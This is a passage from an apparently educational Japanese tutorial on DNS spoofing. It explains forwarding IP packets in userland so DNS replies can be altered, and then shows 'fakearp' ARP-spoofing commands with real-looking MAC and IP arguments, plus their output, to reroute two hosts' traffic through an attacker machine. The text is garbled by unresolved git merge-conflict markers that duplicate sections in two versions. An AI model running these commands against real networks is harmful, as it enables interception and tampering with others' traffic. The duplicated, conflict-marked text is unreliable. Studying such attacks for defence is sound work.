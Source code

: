     55                                          sizeof(struct sockaddr_in)));
    56  }
\-\-\-\-\-


- 4.4.7 IPパケットの転送
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　ネットワークを流れているパケットを改ざんするためには、まず対象パケット
の流れる方向を変える必要があります。具体的には対象となるパケットがDNSスプ
ーフィングプログラムを実行するネットワーク機器を経由するように仕向ける必
要があります。
　はじめに「3. 盗聴」で実行したようにARPスプーフィングを利用して通信の流
れを変えます。ひとつ違うのは、IPパケットの転送をカーネルでおこなうのでは
なくユーザーランドでおこないます。これは、カーネルで実行するとパケットの
改ざんをおこなう前にカーネルがIPパケットの転送をおこなってしまうためです。

　今回はDNSのみを対象とするため、ポート番号が53番である場合にDNSスプーフ
ィングを実行します。
　詳細はサンプルコードを参照してください。FreeBSDで動作の確認をおこなって
います。


<<<<<<< HEAD
○4.4.8 ARPスプーフィング実行

　「3.3 盗聴の実行例」でおこなったように、HOST-AとHOST-Bに対してARPスプー
フィングをおこない、HOST-Cを経由するように仕向けます。

-----
HOST-C# ./fakearp -i em0 -sh 00:1f:d0:c0:24:da -sp 192.168.2.7 -dh 00:1b:d3:87:2a:59 192.168.2.5
=======
- 4.4.8 ARPスプーフィング実行

　「3.3 盗聴の実行例」でおこなったように、HOST\-AとHOST\-Bに対してARPスプー
フィングをおこない、HOST\-Cを経由するように仕向けます。

\-\-\-\-\-
HOST\-C\# ./fakearp \-i em0 \-sh 00:1f:d0:c0:24:da \-sp 192.168.2.7 \-dh 00:1b:d3:87:2a:59 192.168.2.5
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
Using interface em0
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
＜省略＞

<<<<<<< HEAD
HOST-C# ./fakearp -i em0 -sh 00:1f:d0:c0:24:da -sp 192.168.2.5 -dh 4c:e6:76:08:96:86  192.168.2.7
=======
HOST\-C\# ./fakearp \-i em0 \-sh 00:1f:d0:c0:24:da \-sp 192.168.2.5 \-dh 4c:e6:76:08:96:86  192.168.2.7
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
Using interface em0
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
＜省略＞
<<<<<<< HEAD
-----
